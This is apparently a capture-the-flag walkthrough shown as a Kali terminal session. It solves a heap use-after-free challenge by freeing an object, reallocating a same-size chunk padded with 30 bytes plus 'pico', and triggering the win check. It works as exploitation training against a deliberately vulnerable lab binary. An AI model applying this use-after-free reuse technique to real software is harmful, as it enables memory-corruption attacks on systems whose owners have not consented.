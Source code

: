 
```css
┌──(myenv)─(kali㉿kali)-[~/Downloads/heap3]
└─$ ./chall

freed but still in use
now memory untracked
do you smell the bug?

1. Print Heap
2. Allocate object
3. Print x->flag
4. Check for win
5. Free x
6. Exit

Enter your choice: 5

1. Print Heap
2. Allocate object
3. Print x->flag
4. Check for win
5. Free x
6. Exit

Enter your choice: 1
[*]   Address   ->   Value   
+-------------+-----------+
[*]   0x356816ce  ->   bico
+-------------+-----------+

1. Print Heap
2. Allocate object
3. Print x->flag
4. Check for win
5. Free x
6. Exit

Enter your choice: 2
Size of object allocation: 35
Data for flag: 0123456789abcdef0123456789abcdpico

1. Print Heap
2. Allocate object
3. Print x->flag
4. Check for win
5. Free x
6. Exit

Enter your choice: 3


x = pico


1. Print Heap
2. Allocate object
3. Print x->flag
4. Check for win
5. Free x
6. Exit

Enter your choice: 4
YOU WIN!!11!!
```